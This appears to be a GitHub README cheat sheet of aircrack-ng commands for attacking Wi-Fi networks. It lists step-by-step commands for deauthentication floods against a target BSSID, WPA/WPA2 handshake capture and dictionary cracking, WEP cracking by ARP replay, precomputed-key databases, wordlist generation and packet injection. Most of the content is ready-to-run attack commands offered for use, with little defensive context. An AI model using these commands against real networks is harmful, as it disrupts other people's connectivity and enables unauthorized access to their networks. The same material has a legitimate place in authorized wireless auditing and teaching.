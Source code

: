 # All usage of attacks by aircrack-ng

In this example
- `mon0` is the name of your interface in monitor mode
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the database name for cracking password

## Scan network around

```
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## Crack WEP by ARP request

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up crack with database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Brute force tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```























